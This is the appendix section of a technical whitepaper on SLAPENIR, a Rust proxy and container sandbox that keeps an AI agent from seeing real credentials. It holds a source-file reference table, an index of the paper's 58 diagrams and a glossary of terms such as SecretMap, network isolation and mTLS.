| 102 | Section 10 | `monitoring/grafana/dashboards/dashboards.yml:1-16` |
| 103 | Section 10 | `monitoring/grafana/dashboards/network-isolation.json:1-316` |
| 104 | Section 10 | `monitoring/grafana/dashboards/network-isolation.json:306-313` |
| 105 | Section 10 | `monitoring/grafana/dashboards/slapenir-overview.json:1-189` |
| 106 | Section 10 | `monitoring/grafana/dashboards/slapenir-overview.json:140-168` |
| 107 | Section 10 | `monitoring/grafana/datasources/prometheus.yml:1-17` |
| 108 | Section 3 | `monitoring/prometheus.yml` |
| 109 | Section 10 | `monitoring/prometheus.yml:4-9` |
| 110 | Section 10 | `monitoring/prometheus.yml:23-68` |
| 111 | Section 10 | `proxy/Cargo.toml:57-59` |
| 112 | Section 3 | `proxy/Cargo.toml:73` |
| 113 | Section 11 | `proxy/Cargo.toml:76-86` |
| 114 | Section 11 | `proxy/MUTATION_TESTING.md:22-53` |
| 115 | Section 13 | `proxy/MUTATION_TESTING.md:98-106` |
| 116 | Section 11 | `proxy/PERFORMANCE.md:13-21` |
| 117 | Section 11 | `proxy/PERFORMANCE.md:23-29` |
| 118 | Section 13 | `proxy/PERFORMANCE.md:23-47` |
| 119 | Section 11 | `proxy/PERFORMANCE.md:31-38` |
| 120 | Section 11 | `proxy/PERFORMANCE.md:40-47` |
| 121 | Section 11 | `proxy/PERFORMANCE.md:49-81` |
| 122 | Section 11 | `proxy/PERFORMANCE.md:83-109` |
| 123 | Section 11 | `proxy/PERFORMANCE.md:129-139` |
| 124 | Section 11 | `proxy/PERFORMANCE.md:169-172` |
| 125 | Section 11 | `proxy/PERFORMANCE.md:175-180` |
| 126 | Section 11 | `proxy/PERFORMANCE.md:182-185` |
| 127 | Section 11 | `proxy/PERFORMANCE.md:188-193` |
| 128 | Section 11 | `proxy/PERFORMANCE.md:217-225` |
| 129 | Section 11 | `proxy/PERFORMANCE.md:229-237` |
| 130 | Section 12 | `proxy/audit.toml:1-11` |
| 131 | Section 11 | `proxy/benches/performance.rs:16-40` |
| 132 | Section 11 | `proxy/benches/performance.rs:42-66` |
| 133 | Section 11 | `proxy/benches/performance.rs:68-82` |
| 134 | Section 11 | `proxy/benches/performance.rs:84-108` |
| 135 | Section 11 | `proxy/benches/performance.rs:110-125` |
| 136 | Section 11 | `proxy/benches/performance.rs:127-142` |
| 137 | Section 11 | `proxy/benches/performance.rs:144-158` |
| 138 | Section 5 | `proxy/config.yaml:5-76` |
| 139 | Section 12 | `proxy/deny.toml:1-20` |
| 140 | Section 13 | `proxy/deny.toml:14-16` |
| 141 | Section 5 | `proxy/src/auto_detect.rs:108-191` |
| 142 | Section 3 | `proxy/src/auto_detect.rs:194-233` |
| 143 | Section 5 | `proxy/src/builder.rs:8-41` |
| 144 | Section 13 | `proxy/src/builder.rs:97-100` |
| 145 | Section 7 | `proxy/src/connect.rs:105-115` |
| 146 | Section 3 | `proxy/src/connect.rs:184-266` |
| 147 | Section 13 | `proxy/src/connect.rs:287-314` |
| 148 | Section 3 | `proxy/src/connect_full.rs:26-254` |
| 149 | Section 3 | `proxy/src/connect_full.rs:129-149` |
| 150 | Section 5 | `proxy/src/connect_full.rs:156-175` |
| 151 | Section 10 | `proxy/src/main.rs:30-38` |
| 152 | Section 2 | `proxy/src/main.rs:165-264` |
| 153 | Section 5 | `proxy/src/main.rs:206-228` |
| 154 | Section 5 | `proxy/src/main.rs:267-294` |
| 155 | Section 10 | `proxy/src/main.rs:380-388` |
| 156 | Section 10 | `proxy/src/metrics.rs:1-115` |
| 157 | Section 4 | `proxy/src/metrics.rs:14-111` |
| 158 | Section 10 | `proxy/src/metrics.rs:14-50` |
| 159 | Section 10 | `proxy/src/metrics.rs:53-63` |
| 160 | Section 10 | `proxy/src/metrics.rs:66-86` |
| 161 | Section 10 | `proxy/src/metrics.rs:89-94` |
| 162 | Section 10 | `proxy/src/metrics.rs:97-114` |
| 163 | Section 10 | `proxy/src/metrics.rs:157-199` |
| 164 | Section 4 | `proxy/src/mtls.rs:22-29` |
| 165 | Section 4 | `proxy/src/mtls.rs:39-103` |
| 166 | Section 12 | `proxy/src/mtls.rs:111-135` |
| 167 | Section 3 | `proxy/src/proxy.rs:26-28` |
| 168 | Section 12 | `proxy/src/proxy.rs:26-54` |
| 169 | Section 4 | `proxy/src/proxy.rs:109-146` |
| 170 | Section 3 | `proxy/src/proxy.rs:132-136` |
| 171 | Section 12 | `proxy/src/proxy.rs:230-239` |
| 172 | Section 5 | `proxy/src/proxy.rs:249` |
| 173 | Section 5 | `proxy/src/proxy.rs:293-302` |
| 174 | Section 13 | `proxy/src/proxy.rs:293-310` |
| 175 | Section 5 | `proxy/src/proxy.rs:307-330` |
| 176 | Section 4 | `proxy/src/proxy.rs:317-324` |
| 177 | Section 3 | `proxy/src/proxy.rs:354-400` |
| 178 | Section 3 | `proxy/src/proxy.rs:483-496` |
| 179 | Section 4 | `proxy/src/sanitizer.rs:18-24` |
| 180 | Section 4 | `proxy/src/sanitizer.rs:27-42` |
| 181 | Section 13 | `proxy/src/sanitizer.rs:39-41` |
| 182 | Section 4 | `proxy/src/sanitizer.rs:46-77` |
| 183 | Section 12 | `proxy/src/sanitizer.rs:61-64` |
| 184 | Section 5 | `proxy/src/sanitizer.rs:80-82` |
| 185 | Section 5 | `proxy/src/sanitizer.rs:87-103` |
| 186 | Section 4 | `proxy/src/sanitizer.rs:109-131` |
| 187 | Section 4 | `proxy/src/sanitizer.rs:140-166` |
| 188 | Section 5 | `proxy/src/sanitizer.rs:203-270` |
| 189 | Section 4 | `proxy/src/sanitizer.rs:211-218` |
| 190 | Section 5 | `proxy/src/strategies/aws_sigv4.rs:112-209` |
| 191 | Section 7 | `proxy/src/tls/acceptor.rs:17-44` |
| 192 | Section 7 | `proxy/src/tls/acceptor.rs:96-186` |
| 193 | Section 12 | `proxy/src/tls/ca.rs:19-49` |
| 194 | Section 7 | `proxy/src/tls/ca.rs:20-49` |
| 195 | Section 7 | `proxy/src/tls/ca.rs:52-102` |
| 196 | Section 7 | `proxy/src/tls/ca.rs:153-161` |
| 197 | Section 7 | `proxy/src/tls/cache.rs:10-77` |
| 198 | Section 3 | `proxy/src/tls/cache.rs:16-19` |
| 199 | Section 7 | `proxy/src/tls/cache.rs:80-94` |
| 200 | Section 7 | `proxy/src/tls/error.rs:6-11` |
| 201 | Section 11 | `proxy/tests/load/api_load.js:1-112` |
| 202 | Section 11 | `proxy/tests/load/api_load.js:9-48` |
| 203 | Section 11 | `proxy/tests/load/proxy_sanitization.js:1-108` |
| 204 | Section 11 | `proxy/tests/load/run_all_load_tests.sh:15-16` |
| 205 | Section 11 | `proxy/tests/load/soak_test.js:1-93` |
| 206 | Section 11 | `proxy/tests/load/soak_test.js:55-93` |
| 207 | Section 11 | `proxy/tests/load/stress_test.js:1-82` |
| 208 | Section 11 | `proxy/tests/load/stress_test.js:55-81` |
| 209 | Section 12 | `proxy/tests/security_bypass_tests.rs:1-503` |
| 210 | Section 12 | `proxy/tests/security_bypass_tests.rs:25-143` |
| 211 | Section 12 | `proxy/tests/security_bypass_tests.rs:149-263` |
| 212 | Section 12 | `proxy/tests/security_bypass_tests.rs:269-301` |
| 213 | Section 12 | `proxy/tests/security_bypass_tests.rs:307-383` |
| 214 | Section 12 | `proxy/tests/security_bypass_tests.rs:389-431` |
| 215 | Section 12 | `proxy/tests/tls_acceptor_tests.rs:1-242` |
| 216 | Section 5 | `scripts/verify-zero-knowledge.sh` |
| 217 | Section 9 | `scripts/verify-zero-knowledge.sh:131-170` |
| 218 | Section 12 | `scripts/verify-zero-knowledge.sh:132-170` |
| 219 | Section 5 | `scripts/verify-zero-knowledge.sh:252-264` |
| 220 | Section 9 | `scripts/verify-zero-knowledge.sh:253-264` |
| 221 | Section 9 | `slapenir:96-155` |
| 222 | Section 9 | `slapenir:247-275` |

**Total unique references:** 222

---

# Appendix C: Diagram Index

Complete inventory of all 58 diagrams in the whitepaper, with section references and diagram types.

| # | Diagram | Type | Section |
| --- | --------- | ------ | --------- |
| 1 | Attack vectors | Mermaid graph | [Section 1](#section-1-abstract--problem-statement) |
| 2 | System architecture | Mermaid flowchart | [Section 2](#section-2-architecture-overview) |
| 3 | Trust boundary model | ASCII box diagram | [Section 2](#section-2-architecture-overview) |
| 4 | Docker network topology | Mermaid graph | [Section 2](#section-2-architecture-overview) |
| 5 | Service dependency graph | Mermaid graph | [Section 2](#section-2-architecture-overview) |
| 6 | Agent build layers | Mermaid graph | [Section 2](#section-2-architecture-overview) |
| 7 | Request processing pipeline | Mermaid flowchart | [Section 2](#section-2-architecture-overview) |
| 8 | Credential loading pipeline | Mermaid flowchart | [Section 2](#section-2-architecture-overview) |
| 9 | MCP knowledge plane | Mermaid graph | [Section 2](#section-2-architecture-overview) |
| 10 | Startup sequence | Mermaid sequence | [Section 3](#section-3-network-interactions) |
| 11 | Agent to LLM | Mermaid sequence | [Section 3](#section-3-network-interactions) |
| 12 | Agent to Proxy HTTP | Mermaid sequence | [Section 3](#section-3-network-interactions) |
| 13 | CONNECT tunnel flow | Mermaid flowchart | [Section 3](#section-3-network-interactions) |
| 14 | Agent to Memgraph | Mermaid sequence | [Section 3](#section-3-network-interactions) |
| 15 | DNS filtering | Mermaid flowchart | [Section 3](#section-3-network-interactions) |
| 16 | Prometheus scrape | Mermaid sequence | [Section 3](#section-3-network-interactions) |
| 17 | NAT redirect | Mermaid sequence | [Section 3](#section-3-network-interactions) |
| 18 | SSH git ops | Mermaid sequence | [Section 3](#section-3-network-interactions) |
| 19 | iptables rule evaluation | Mermaid flowchart | [Section 4](#section-4-security-architecture) |
| 20 | Zero-knowledge flow | Mermaid flowchart | [Section 4](#section-4-security-architecture) |
| 21 | mTLS handshake (WP-04) | Mermaid sequence | [Section 4](#section-4-security-architecture) |
| 22 | Aho-Corasick scan | Mermaid flowchart | [Section 4](#section-4-security-architecture) |
| 23 | Memory lifecycle | Mermaid state | [Section 4](#section-4-security-architecture) |
| 24 | ALLOW_BUILD flow | Mermaid sequence | [Section 4](#section-4-security-architecture) |
| 25 | Response sanitization pipeline | Mermaid flowchart | [Section 4](#section-4-security-architecture) |
| 26 | Monitoring architecture | Mermaid graph | [Section 4](#section-4-security-architecture) |
| 27 | 10-layer stack | Mermaid graph | [Section 4](#section-4-security-architecture) |
| 28 | Credential lifecycle state | Mermaid state | [Section 5](#section-5-credential-lifecycle) |
| 29 | SecretMap automaton | Mermaid flowchart | [Section 5](#section-5-credential-lifecycle) |
| 30 | Aho-Corasick algorithm walkthrough | Mermaid flowchart | [Section 5](#section-5-credential-lifecycle) |
| 31 | Injection/sanitization pipeline | Mermaid flowchart | [Section 5](#section-5-credential-lifecycle) |
| 32 | iptables rule chain evaluation | Mermaid flowchart | [Section 6](#section-6-network-isolation) |
| 33 | ALLOW_BUILD=1 sequence | Mermaid sequence | [Section 6](#section-6-network-isolation) |
| 34 | 3-layer build control | Mermaid flowchart | [Section 6](#section-6-network-isolation) |
| 35 | Certificate bootstrapping | Mermaid sequence | [Section 7](#section-7-mtls-architecture) |
| 36 | Certificate chain | Mermaid graph | [Section 7](#section-7-mtls-architecture) |
| 37 | mTLS handshake (WP-07) | Mermaid sequence | [Section 7](#section-7-mtls-architecture) |
| 38 | TLS MITM cert caching | Mermaid flowchart | [Section 7](#section-7-mtls-architecture) |
| 39 | s6-overlay boot sequence | Mermaid flowchart | [Section 8](#section-8-agent-environment) |
| 40 | Process supervision lifecycle | Mermaid state | [Section 8](#section-8-agent-environment) |
| 41 | Knowledge plane architecture | Mermaid flowchart | [Section 8](#section-8-agent-environment) |
| 42 | 5-phase workflow | Mermaid sequence | [Section 9](#section-9-workflow-sequence) |
| 43 | Session lifecycle | Mermaid state | [Section 9](#section-9-workflow-sequence) |
| 44 | Extraction pipeline | Mermaid flowchart | [Section 9](#section-9-workflow-sequence) |
| 45 | Prometheus scrape topology | Mermaid flowchart | [Section 10](#section-10-observability) |
| 46 | Grafana scrape sequence | Mermaid sequence | [Section 10](#section-10-observability) |
| 47 | Benchmark group architecture | Mermaid flowchart | [Section 11](#section-11-performance) |
| 48 | Load test topology | Mermaid flowchart | [Section 11](#section-11-performance) |
| 49 | Latency tier distribution | Mermaid flowchart | [Section 11](#section-11-performance) |
| 50 | Adversary profile architecture | Mermaid flowchart | [Section 12](#section-12-threat-model) |
| 51 | Attack tree A1: Prompt injection | Mermaid flowchart | [Section 12](#section-12-threat-model) |
| 52 | Attack tree A2: Malicious dependency | Mermaid flowchart | [Section 12](#section-12-threat-model) |
| 53 | Attack tree A3: Compromised agent | Mermaid flowchart | [Section 12](#section-12-threat-model) |
| 54 | Attack tree A4: Insider threat | Mermaid flowchart | [Section 12](#section-12-threat-model) |
| 55 | Comparative analysis | Mermaid flowchart | [Section 12](#section-12-threat-model) |
| 56 | Roadmap timeline | Mermaid gantt | [Section 13](#section-13-roadmap--gap-analysis) |
| 57 | Phase architecture | Mermaid flowchart | [Section 13](#section-13-roadmap--gap-analysis) |
| 58 | SIEM log forwarding | Mermaid flowchart | [Section 13](#section-13-roadmap--gap-analysis) |

**Total diagrams:** 58

**By type:**

- Mermaid flowchart: 30
- Mermaid sequence: 14
- Mermaid graph: 8
- Mermaid state: 4
- ASCII box diagram: 1
- Mermaid gantt: 1

---

# Appendix A: Glossary

Key terms and concepts used throughout the SLAPENIR technical whitepaper.

| Term | Definition |
| ------ | ----------- |
| **Aho-Corasick Algorithm** | Efficient multiple-pattern string matching algorithm used by the SLAPENIR sanitizer to detect all credential values simultaneously in a single pass through response data. |
| **ALLOW_BUILD** | Environment variable and three-layer control flag (netctl capability + environment variable + build-wrapper trap) that gates network access during package build operations. |
| **ARC (Atomic Reference Counting)** | Rust thread-safe reference counting pointer (Arc&lt;T&gt;), used to share the SecretMap across proxy handler tasks without copying. |
| **AuthStrategy** | Trait defining the interface for authentication strategies (API key, Bearer token, AWS SigV4, OAuth2, Basic Auth) in the proxy credential injection subsystem. |
| **Bypass Attempt** | Any network connection attempt from the agent container that circumvents the proxy (direct internet access), detected and blocked by iptables rules. |
| **Certificate Authority (CA)** | Entity that issues digital certificates. SLAPENIR uses Step-CA as a private CA for mTLS certificate bootstrapping. |
| **CONNECT Tunnel** | HTTP method used to establish a tunnel through the proxy for HTTPS traffic, enabling the proxy to intercept and sanitize TLS-encrypted responses. |
| **Credential Dummy** | Synthetic placeholder value generated to replace real credentials in the agent environment, maintaining functional API signatures without exposing actual secrets. |
| **Credential Injection** | Process of replacing dummy credentials in outgoing requests with real credential values, performed by the proxy at the HTTP layer. |
| **Credential Lifecycle** | The complete lifecycle of a credential in SLAPENIR: creation, dummy generation, injection, rotation, and zeroization. |
| **DNS Filtering** | iptables-based DNS interception that restricts the agent container DNS resolutions to only permitted upstream API endpoints. |
| **Docker Bridge Network** | Isolated L2 network created by Docker, used in SLAPENIR to separate the proxy and agent containers from the host network. |
| **Dummy Pattern** | Regex pattern defining the format of dummy credentials (e.g., sk-dummy-{provider}-{id}), enabling the proxy to identify and replace them. |
| **Grafana** | Open-source visualization and dashboard platform used to display SLAPENIR metrics collected by Prometheus. |
| **iptables** | Linux kernel packet filtering framework used to implement network isolation, DNS filtering, and NAT redirect rules in the agent container. |
| **Knowledge Plane** | Architectural layer providing the AI agent with curated, sanitized knowledge through MCP (Model Context Protocol) servers and HuggingFace model caching. |
| **Kubernetes (K8s)** | Container orchestration platform; Phase 3 roadmap target for SLAPENIR deployment with service mesh mTLS and NetworkPolicy isolation. |
| **Load Testing** | Performance validation using tools (k6) to simulate concurrent API requests and measure proxy throughput, latency, and error rate under stress. |
| **MCP (Model Context Protocol)** | Protocol for providing structured context to AI agents, used in SLAPENIR for knowledge plane servers (Memgraph, filesystem). |
| **Memgraph** | In-memory graph database used as an MCP knowledge server to provide structured knowledge to the AI agent. |
| **Memory Zeroization** | Security practice of overwriting memory containing sensitive data with zeros before deallocation, implemented using the Rust zeroize crate. |
| **mTLS (Mutual TLS)** | Two-way TLS authentication where both client and server present certificates, ensuring only authorized containers can communicate. |
| **Mutation Testing** | Testing technique that introduces small code changes (mutations) to verify test suite effectiveness, using cargo-mutants for the Rust proxy. |
| **NAT Redirect** | Network Address Translation rule that transparently redirects agent HTTP traffic from direct internet routes to the proxy endpoint. |
| **netctl** | Custom C binary (setuid root) in the agent container providing controlled network management capabilities without granting full root access. |
| **Network Isolation** | Default-deny egress policy that prevents the agent container from making any outbound network connections except through the proxy. |
| **Observability** | System property encompassing logging, metrics, and tracing, enabling operators to understand system behavior and diagnose issues. |
| **OpenTelemetry (OTel)** | Open-source observability framework for distributed tracing, metrics, and logs; planned for Phase 4 integration. |
| **Paranoid Mode** | Boolean flag enabling a double-pass verification scan on sanitized responses to ensure no credential values remain. |
| **Phase 1: Hardening** | First roadmap phase (Q3 2026) addressing critical security gaps: mTLS enforcement, CONNECT tunnel completion, and performance baselines. |
| **Phase 2: Capability** | Second roadmap phase (Q4 2026) adding streaming sanitization, HMAC strategy, WebSocket support, and Prometheus alerting. |
| **Phase 3: Enterprise** | Third roadmap phase (Q1 2027) adding SIEM integration, secret rotation automation, and Kubernetes migration. |
| **Phase 4: Scale** | Fourth roadmap phase (Q2 2027) adding auto-scaling validation, OpenTelemetry tracing, and multi-agent orchestration. |
| **Prometheus** | Open-source monitoring and alerting toolkit that scrapes metrics from the SLAPENIR proxy and agent metrics exporter. |
| **Proxy (SLAPENIR Proxy)** | Rust-based HTTP/HTTPS forward proxy that intercepts, injects credentials into requests, and sanitizes responses to enforce zero-knowledge architecture. |
| **Response Sanitization** | Process of scanning upstream API responses for leaked credential values and replacing them with dummy patterns before forwarding to the agent. |
| **s6-overlay** | Process supervision framework used in the agent container to manage service lifecycle (initialization, daemon processes, graceful shutdown). |
| **Secret Rotation** | Process of replacing credential values with new ones, currently requiring proxy restart; hot-reload planned for Phase 3. |
| **SecretMap** | Core data structure holding the compiled Aho-Corasick automaton, mapping credential values to their replacement patterns for O(n) response scanning. |
| **SIEM (Security Information and Event Management)** | Enterprise security platform for log aggregation, correlation, and alerting; planned integration in Phase 3. |
| **Step-CA** | Private certificate authority (Smallstep) used to bootstrap and manage mTLS certificates for inter-container communication. |
| **Threat Model** | Systematic analysis of potential adversaries, attack vectors, and mitigation controls; documented using attack trees (A1-A4) in Section 12. |
| **TLS MITM (Man-in-the-Middle)** | Technique where the proxy presents a dynamically generated certificate to the agent while establishing a separate TLS connection to the upstream server. |
| **Traffic Enforcement** | Agent-side network security enforcement via iptables rules applied during container initialization, implementing default-deny egress. |
| **Trust Boundary** | Architectural boundary delineating zones of different trust levels (e.g., agent zone, proxy zone, external zone). |
| **Zero-Knowledge Architecture** | Design principle where the AI agent never has access to real credential values, operating entirely with dummy placeholders. |
| **Zeroize** | To securely erase sensitive data from memory by overwriting it, implemented in the proxy using the zeroize crate on SecretMap drop. |

**Total terms:** 47
